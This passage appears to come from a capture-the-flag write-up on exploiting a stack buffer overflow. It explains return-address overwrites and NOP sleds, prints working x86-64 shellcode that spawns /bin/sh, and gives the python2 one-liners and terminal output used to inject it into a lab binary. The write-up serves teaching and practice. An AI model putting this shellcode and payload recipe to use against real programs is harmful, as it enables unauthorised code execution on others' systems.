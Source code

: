 Know that we know we can control the flow of execution by directing the return address to some memory address, how do we actually do something useful with this. This is where shellcode comes in; shell code quite literally is code that will open up a shell. More specifically, it is binary instructions that can be executed. Since shellcode is just machine code(in the form of binary instructions), you can usually start of by writing a C program to do what you want, compile it into assembly and extract the hex characters(alternatively it would involve writing your own assembly). For now we’ll use this shellcode that opens up a basic shell:

	\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05

So why don’t we looking at actually executing this shellcode. The basic idea is that we need to point the overwritten return address to the shellcode, but where do we actually store the shellcode and what actual address do we point it at? Why don’t we store the shellcode in the buffer - because we know the address at the beginning of the buffer, we can just overwrite the return address to point to the start of the buffer. Here’s the general process so far:

    Find out the address of the start of the buffer and the start address of the return address

    Calculate the difference between these addresses so you know how much data to enter to overflow

    Start out by entering the shellcode in the buffer, entering random data between the shellcode and the return address, and the address of the buffer in the return address

![](https://i.imgur.com/ktEI9zu.png)

In theory, this looks like it would work quite well. However, memory addresses may not be the same on different systems, even across the same computer when the program is recompiled. So we can make this more flexible using a NOP instruction. A NOP instruction is a no operation instruction - when the system processes this instruction, it does nothing, and carries on execution. A NOP instruction is represented using \x90. Putting NOPs as part of the payload means an attacker can jump anywhere in the memory region that includes a NOP and eventually reach the intended instructions. This is what an injection vector would look like:

![](https://i.imgur.com/olQ17Tg.png)

You’ve probably noticed that shellcode, memory addresses and NOP sleds are usually in hex code. To make it easy to pass the payload to an input program, you can use python:

	python -c “print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)”

Using this format would be something like this for this challenge:

```
python2 -c "print('\x90' * 30 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + '\x41' * 60 + '\xef\xbe\xad\xde') | ./program_name "
```

In some cases you may need to pass xargs before ./program_name.

```
[user1@ip-10-10-69-210 overflow-3]$ ./buffer-overflow $(python2 -c "print 'A'*158")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault


[user1@ip-10-10-69-210 overflow-3]$ ./buffer-overflow $(python2 -c "print '\x90' * 30 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + '\x41' * 60 + '\xef\xbe\xad\xde'")
Here's a program that echo's out your input
������������������������������H�/bin/shH�H�QH�<$H1Ұ;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�


so let's go

```